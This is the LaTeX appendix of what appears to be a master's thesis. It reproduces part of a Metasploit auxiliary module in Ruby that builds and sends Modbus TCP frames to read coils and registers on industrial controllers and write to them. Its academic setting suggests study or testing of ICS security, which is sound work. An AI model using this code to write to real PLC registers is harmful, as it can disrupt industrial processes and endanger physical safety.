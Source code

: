 \documentclass[article,msc=informatik,type=msc,colorback,accentcolor=tud9c]{tudthesis}
\begin{document}
\begin{appendix}
\begin{lstlisting}[caption=Metasploit script of Writing into Modbus Registers, label=lst:Modbusclinet]
  	         register_options(
  	           [
  	             Opt::RPORT(502),
  	             OptInt.new('DATA', [false, "Data to write (WRITE_COIL and WRITE_REGISTER modes only)"]),
  	             OptInt.new('DATA_ADDRESS', [true, "Modbus data address"]),
  	             OptInt.new('UNIT_NUMBER', [false, "Modbus unit number", 1]),
  	           ], self.class)
  	     
  	       end
  	     
  	       # a wrapper just to be sure we increment the counter
  	       def send_frame(payload)
  	         sock.put(payload)
  	         @modbus_counter += 1
  	         sock.get_once(-1, sock.def_read_timeout)
  	       end
  	     
  	       def make_payload(payload)
  	         packet_data = [@modbus_counter].pack("n")
  	         packet_data += "\x00\x00\x00" #dunno what these are
  	         packet_data += [payload.size].pack("c") # size byte
  	         packet_data += payload
  	     
  	         packet_data
  	       end
  	     
  	       def make_read_payload
  	         payload = [datastore['UNIT_NUMBER']].pack("c")
  	         payload += [@function_code].pack("c")
  	         payload += [datastore['DATA_ADDRESS']].pack("n")
  	         payload += [1].pack("n")
  	         make_payload(payload)
  	       end
  	     
  	       def make_write_coil_payload(data)
  	         payload = [datastore['UNIT_NUMBER']].pack("c")
  	         payload += [@function_code].pack("c")
  	         payload += [datastore['DATA_ADDRESS']].pack("n")
  	         payload += [data].pack("c")
  	         payload += "\x00"
  	     
  	         packet_data = make_payload(payload)
  	     
  	         packet_data
  	       end
  	     
  	       def make_write_register_payload(data)
  	         payload = [datastore['UNIT_NUMBER']].pack("c")
  	         payload += [@function_code].pack("c")
  	         payload += [datastore['DATA_ADDRESS']].pack("n")
  	         payload += [data].pack("n")
  	     
  	         make_payload(payload)
  	       end
  	     
  	       def handle_error(response)
  	         case response.reverse.unpack("c")[0].to_i
  	         when 1
  	           print_error("Error : ILLEGAL FUNCTION")
  	         when 2
  	           print_error("Error : ILLEGAL DATA ADDRESS")
  	         when 3
  	           print_error("Error : ILLEGAL DATA VALUE")
  	         when 4
  	           print_error("Error : SLAVE DEVICE FAILURE")
  	         when 6
  	           print_error("Error : SLAVE DEVICE BUSY")
  	         else
  	           print_error("Unknown error")
  	         end
  	         return
  	       end
  	     

\end{lstlisting}
\end{appendix}
\end{document}
